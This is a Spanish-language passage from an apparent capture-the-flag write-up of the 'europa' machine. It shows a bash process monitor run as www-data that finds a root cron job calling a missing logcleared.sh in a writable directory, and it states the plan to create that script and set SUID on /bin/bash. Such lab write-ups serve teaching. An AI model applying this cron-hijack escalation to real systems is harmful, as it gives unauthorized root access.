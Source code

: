 No encontramos nada interesante, por lo que es posible que se esté ejecutando una tarea a intervalos regulares de tiempo; así que vamos a utilizar nuestro script [ProcMon](/posts/procmon) para ver que procesos se ejecutan cada cierto tiempo.

```bash
www-data@europa:/dev/shm$ touch procmon.sh; chmod +x procmon.sh
www-data@europa:/dev/shm$ nano procmon.sh 
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

www-data@europa:/dev/shm$ cat procmon.sh 
#!/bin/bash

old_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\<\>]" | grep -v -E "command|procmon"
        old_process=$new_process
done
www-data@europa:/dev/shm$
www-data@europa:/dev/shm$ ./procmon.sh 
> /usr/sbin/CRON -f
> /bin/sh -c /var/www/cronjobs/clearlogs
> /usr/bin/php /var/www/cronjobs/clearlogs
< /usr/sbin/CRON -f
< /bin/sh -c /var/www/cronjobs/clearlogs
< /usr/bin/php /var/www/cronjobs/clearlogs
^C
www-data@europa:/dev/shm$ 
```

Analizando un poco los archivos que se están ejecutando, vemos que el usuario **root** ejecuta el archivo `clearlogs` el cual al final ejecuta el archivo `logcleared.sh`; sin embargo, dicho documento no existe y vemos que tenemos permisos `rwx`; asi que podemos crear `logcleared.sh` e indicandole que queremos que quien lo ejecute de le permisos SUID a la `/bin/bash`, en este caso **root**.

```bash
www-data@europa:/dev/shm$ cat /var/www/cronjobs/clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
www-data@europa:/dev/shm$ ls -l /var/www/cronjobs/clearlogs
-r-xr-xr-x 1 root root 132 May 12  2017 /var/www/cronjobs/clearlogs
www-data@europa:/dev/shm$ cat /var/www/cmd/logcleared.sh
cat: /var/www/cmd/logcleared.sh: No such file or directory
www-data@europa:/dev/shm$ ls -l /var/www/cmd/logcleared.sh
ls: cannot access '/var/www/cmd/logcleared.sh': No such file or directory
www-data@europa:/dev/shm$ ls -l /var/www/ | grep cmd      
drwxrwxr-x 2 root www-data 4096 May 12  2017 cmd
www-data@europa:/dev/shm$ 
```

